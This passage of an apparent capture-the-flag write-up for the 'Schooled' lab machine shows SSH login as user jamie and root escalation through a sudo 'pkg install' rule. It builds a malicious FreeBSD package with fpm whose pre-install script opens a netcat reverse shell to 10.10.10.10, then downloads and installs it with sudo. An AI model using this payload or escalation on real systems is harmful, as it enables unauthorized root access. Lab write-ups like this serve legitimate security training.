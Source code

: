With these creds, connected through SSH and obtained the `user.txt` flag :smile:

```bash
jamie@Schooled:~ $ id && hostname && cat user.txt
uid=1001(jamie) gid=1001(jamie) groups=1001(jamie),0(wheel)
Schooled
<redacted>
```

## Root Flag

Starting the enumeration for the root flag, the first command executed was `sudo -l` as usual, which displayed the commands below

```bash
jamie@Schooled:~ $ sudo -l
User jamie may run the following commands on Schooled:
    (ALL) NOPASSWD: /usr/sbin/pkg update
    (ALL) NOPASSWD: /usr/sbin/pkg install *
```

Checking the [GTFOBins page](https://gtfobins.github.io/gtfobins/pkg/) for `pkg` found that we might be able to install a crafted package to run a command. The below steps were used to obtain a reverse shell as root

* Installed `fpm`, also available from this [Github Repository](https://github.com/jordansissel/fpm)

  ```bash
  sudo apt-get install ruby ruby-dev rubygems build-essential
  sudo gem install --no-document fpm
  ```

* Created a package containing the malicious payload from the attacker machine

  ```bash
  TF=$(mktemp -d)
  echo 'export file="/tmp/zurc"' > $TF/x.sh
  echo 'rm $file;mkfifo $file;cat $file|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >$file' >> $TF/x.sh
  fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
  ```

* Download package and install using `sudo` based on `jamie`'s permissions

  ```bash
  jamie@Schooled:/tmp $ /usr/local/bin/curl http://10.10.10.10/x-1.0.txz -o x-1.0.txz
  1.0.txz  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                   Dload  Upload   Total   Spent    Left  Speed
  100   572  100   572    0     0   4144      0 --:--:-- --:--:-- --:--:--  4144
  jamie@Schooled:/tmp $ sudo pkg install -y --no-repo-update ./x-1.0.txz
  pkg: Repository FreeBSD has a wrong packagesite, need to re-create database
  pkg: Repository FreeBSD cannot be opened. 'pkg update' required
  Checking integrity... done (0 conflicting)
  The following 1 package(s) will be affected (of 0 checked):
  
  New packages to be INSTALLED:
          x: 1.0
  
  Number of packages to be installed: 1
  [1/1] Installing x-1.0...
  rm: /tmp/zurc: No such file or directory
  ```
